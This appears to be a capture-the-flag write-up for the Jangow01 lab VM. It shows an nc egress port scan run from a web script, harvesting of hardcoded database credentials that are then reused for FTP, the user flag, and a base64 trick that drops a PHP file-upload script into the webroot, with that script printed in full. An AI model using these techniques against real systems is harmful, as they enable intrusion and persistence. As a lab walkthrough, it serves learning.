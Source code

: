 Netcat is installed on the box so I can portscan my box with the following command launched from the web script :  

```bash
nc -zvn -w1 192.168.56.1 1-500
```

Listening on the interface with *tshark* I eventually get a connection attempt on port 443 :  

```plain
1 0.000000000 192.168.56.118 → 192.168.56.1 TCP 74 42128 → 443 [SYN] Seq=0 Win=29200 Len=0 MSS=1460 SACK_PERM=1 TSval=15199363 TSecr=0 WS=128
2 0.000075280 192.168.56.1 → 192.168.56.118 TCP 54 443 → 42128 [RST, ACK] Seq=1 Ack=1 Win=0 Len=0
```

But FTP is running on the VM and this protocol is well known for punching holes in firewalls so let's figure out how we can do this !  

First we need credentials for FTP because anonymous connection aren't allowed.  

In */var/www/html/site/wordpress/config.php* I can find the following creds :  

```php
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
```

Unfortunately they don't work for FTP but after some time I found a hidden file on the system : */var/www/html/.backup*  

```php
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
```

Those are valid credentials for FTP. When I connect the working directory is */var/www/html/site/* but I can *cd ..* to the root. The only restriction is that I'm a simple user.  

In */home/jangow01* there is the *user.txt* flag with content *d41d8cd98f00b204e9800998ecf8427e*.  

Alternative upload solution
---------------------------

With FTP I can upload useful scripts like LinPEAS but I could have instead wrote a PHP upload script on the system by executing a command like :  

```bash
echo base64_encoded_php_script | base64 -d > /var/www/html/site/upl.php
```

That upload script would have been the following :  

```php
<?php
if(!empty($_FILES['uploaded_file']))
{
    $path = "/tmp/" . basename($_FILES['uploaded_file']['name']);
    if (move_uploaded_file($_FILES['uploaded_file']['tmp_name'], $path)) {
      echo "uploaded";
    } else{
        echo "error";
    }
}
?>
```
